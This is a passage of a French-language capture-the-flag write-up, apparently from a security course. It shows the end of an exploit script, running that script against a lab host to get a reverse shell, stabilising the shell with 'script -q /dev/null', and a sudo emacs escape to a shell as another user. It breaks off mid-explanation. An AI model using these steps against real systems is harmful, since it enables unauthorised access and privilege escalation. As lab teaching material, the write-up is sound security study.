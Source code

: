 ```python
    exploit(domain, username, password, host, port, path, platform)
    print("[+] Exploit finished!")
    print("[+] Enjoy your reverse shell!")


if __name__ == "__main__":
    main()
```

On exécute alors le script `exploit.py` en lui passant les informations correspondantes.

```bash
python exploit.py http://player456:suggardaddy@10.10.216.64/lick/ide/ player456 sugardaddy <target> 4444 linux
```

![05](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/b68c68eb-2133-473d-9e7a-5dfe7a195432)

Le script précédemment exécuté nous indique de lancer deux autres commandes simultanément. On ouvre alors un autre terminal pour y exécuter la seconde.

![06](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/e9db2a22-b0d4-416e-bc6c-7b417e84bf74)

Puis enfin un dernier terminal qui sera celui dans lequel le reverse shell s'ouvrira.

![07](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/f16ff018-f80b-4031-bec0-59197c3f99ce)

Une fois ouvert, nous avons seulement de le temps de nous aperçevoir que le fichier `user.txt` se trouver dans `/home/player456/`, et ce avant que le terminal se ferme.

![08](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/da9159b7-c1ad-4263-9d0b-20f8935b1f64)

La commande `script -q /dev/null` à exécuter dans le reverse shell permet au terminal de ne pas s'exit automatiquement.

![10](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/b9c1ac7c-bef5-4632-8e91-1dcb4899ede1)

On est donc connecté en tant que `www-data` et il va désormais falloir que nous nous connections en tant que `player456`.

En utilisant `sudo -l`, on s'aperçoit que `player456` a la permission d'utiliser `emacs` en sudo.

```bash
sudo -u player456 TERM=xterm emacs -Q -nw --eval '(term "/bin/sh")'
```

Cette commande utilise sudo pour exécuter une commande en tant qu'un autre utilisateur (player456), en définissant certaines variables d'environnement et en lançant Emacs dans un terminal avec une configuration minimale, tout en ouvrant un sous-shell. Voici une explication détaillée de chaque partie de la commande :

`sudo -u player456`:

- `sudo` : Permet d'exécuter une commande avec les privilèges d'un autre utilisateur.
- `-u player456` : Spécifie que la commande doit être exécutée en tant qu'utilisateur player456.
